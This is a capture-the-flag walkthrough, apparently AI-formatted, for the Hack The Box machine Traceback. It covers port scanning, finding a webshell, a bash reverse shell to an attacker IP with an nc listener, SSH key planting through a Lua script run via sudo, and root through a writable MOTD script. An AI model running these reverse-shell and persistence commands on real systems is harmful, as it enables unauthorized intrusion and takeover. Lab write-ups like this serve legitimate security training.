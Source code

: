Here’s a **clean, structured Markdown walkthrough** for **HTB: Traceback**, including all essential commands and explanations. You can copy and paste this directly into your notes, Obsidian, GitHub, or wherever you prefer:

---

# 🔍 HTB: Traceback — Walkthrough

**OS:** Linux  
**Difficulty:** Easy  
**Tags:** `webshell`, `lua`, `luvit`, `motd`, `ssh`, `cron privesc`

---

## 📡 Recon

### Full TCP Port Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.181
```

### Targeted Service Detection

```bash
nmap -p 22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.181
```

- **Ports Open**: 22 (SSH), 80 (HTTP)
- Apache/2.4.29, OpenSSH 7.6p1 → likely Ubuntu 18.04

---

## 🌐 [Web Enumeration](HTTP)

### Webpage Source

- Page shows “owned” message by Xh4H
- Comment: `<!--Some of the best web shells that you might need ;)-->`
- Google search → list of known PHP webshell names

### Create Wordlist of Common Webshells

```bash
vim php_shells.txt  # Add shell names like smevk.php, cmd.php, r57.php etc.
```

### Gobuster with Wordlist

```bash
gobuster dir -u http://10.10.10.181 -w php_shells.txt
```

✅ **Found**: `/smevk.php`

---

## 🐚 Shell as webadmin

### Webshell Access

- Login: `admin:admin` (from source)
- Use Reverse Shell payload:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'
```

### Listener

```bash
nc -lvnp 443
```

🎯 Shell obtained as `webadmin`

---

## 🔐 Persist Access (Optional)

### Add SSH Key via Webshell

```bash
mkdir ~/.ssh
echo "your-ssh-pub-key" > ~/.ssh/authorized_keys
```

Then [SSH](SSH) in:

```bash
ssh webadmin@10.10.10.181 -i ~/keys/id_rsa
```

---

## 🧑‍💻 Privilege Escalation: webadmin → sysadmin

### Check for Sudo Rights

```bash
sudo -l
```

✅ `webadmin` can run `/home/sysadmin/luvit` as `sysadmin` without password

---

### Lua-based SSH Key Write Exploit

```lua
-- Save as /dev/shm/key.lua
authkeys = io.open("/home/sysadmin/.ssh/authorized_keys", "a")
authkeys:write("ssh-ed25519 AAAA... your-key-here ... user@host\n")
authkeys:close()
```

Run it:

```bash
sudo -u sysadmin /home/sysadmin/luvit /dev/shm/key.lua
```

🎯 Now SSH as `sysadmin`:

```bash
ssh sysadmin@10.10.10.181 -i ~/keys/id_rsa_sysadmin
```

✅ Get `user.txt`

---

## 🧑‍🔧 Privilege Escalation: sysadmin → root

### MOTD Scripts Writable

```bash
ls -l /etc/update-motd.d/
```

✅ Writable by `sysadmin` group (e.g., 00-header)

---

### Add Root Key via MOTD

```bash
echo "cp /home/sysadmin/.ssh/authorized_keys /root/.ssh/" >> /etc/update-motd.d/00-header
```

Immediately login again as any user to trigger script:

```bash
ssh webadmin@10.10.10.181
```

🎯 Now SSH as `root`:

```bash
ssh root@10.10.10.181 -i ~/keys/id_rsa_sysadmin
```

✅ Grab `root.txt`

---

## 🧩 Beyond Root

### Cron Discovery (via pspy or manually)

```bash
crontab -l
```

Shows:

```cron
* * * * * /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
* * * * * sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```

- Scripts overwritten every 30 seconds from backup
- Acts as cleanup mechanism

### Enumeration Tips

- Group-writable scripts in MOTD folder = privesc vector
- LinPEAS / LinEnum with `-t` will detect this